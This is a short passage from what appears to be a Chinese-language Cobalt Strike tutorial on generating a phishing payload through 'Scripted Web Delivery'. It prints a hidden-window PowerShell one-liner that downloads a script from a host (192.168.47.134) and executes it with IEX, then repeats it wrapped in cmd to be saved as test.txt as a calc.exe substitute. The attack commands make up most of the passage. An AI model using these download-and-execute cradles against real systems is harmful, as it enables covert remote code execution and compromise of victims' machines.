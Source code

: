 选择`钓鱼攻击>Scripted Web Delivery`, 生成PowerShell远程执行代码

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.47.134:80/a'))"
```

![image-20221008093244770](CobaltStrike的使用教程/image-20221008093244770.png)	

![image-20221008093510210](CobaltStrike的使用教程/image-20221008093510210.png)	



按照上面做的简单powershell步骤,将其内容里的calc.exe换成powershell代码, 保存为test.txt文件 

```
cmd /c powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.47.134:80/a'))"
```
